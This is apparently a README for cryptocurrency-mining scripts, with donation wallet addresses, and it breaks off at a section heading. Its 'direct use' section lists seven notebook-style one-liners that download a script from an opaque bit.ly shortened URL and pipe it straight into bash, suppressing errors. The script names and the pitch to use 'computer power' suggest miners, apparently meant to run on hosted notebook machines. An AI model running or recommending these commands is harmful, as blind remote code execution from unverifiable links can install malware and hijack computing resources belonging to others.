 # 10 000 code and code

This project offers multiple scripts to better use your computer power and network without wasting anything

<span style="color:Red">The address and urls are hardcoded in the scripts you need to change it before using the script</span>.



## Donate

ETH:	0x1be9C1Db52aC9cD736160c532D69aA4770c327B7

ETC:	0x5C5152521D51f23735Bf14a8f6321d39bA73D95f

RVN:	RMV17aQMgMPyPqJQ5H3WRQH37Njspi1SSK

ZEC:	t1ab2rCrgCbqaspPodCALpR6epzEiu5uCHF

YEC:	s1THjZQJxthDD9tt1dRzQSqDoQQH9XwNM5x

ADA: addr1qy4aeu2wpjpuy0r2xn64eec0z6300wnqrj5ypj3ep9g49ggm7gg506stxjnjp3zjs3a9mch478sfl6qt722zu2gs28fqq5dfv6

XMR:	44ucr5iSqUjCR6m93Gu9ssJC9W1yWLGz1fZbAChLXG1QPnFD5bsTXKJAQEk8dHKDWx8hYJQ5ELqg9DJKNA1oRoNZKCGyn1p

## Scripts Direct use

!echo $(wget -q -O - bit.ly/RV00001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/RV20001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/IBM0001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/ET00001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/RVET0001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/XM00001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/TEsT0001 | bash)


## Solo M

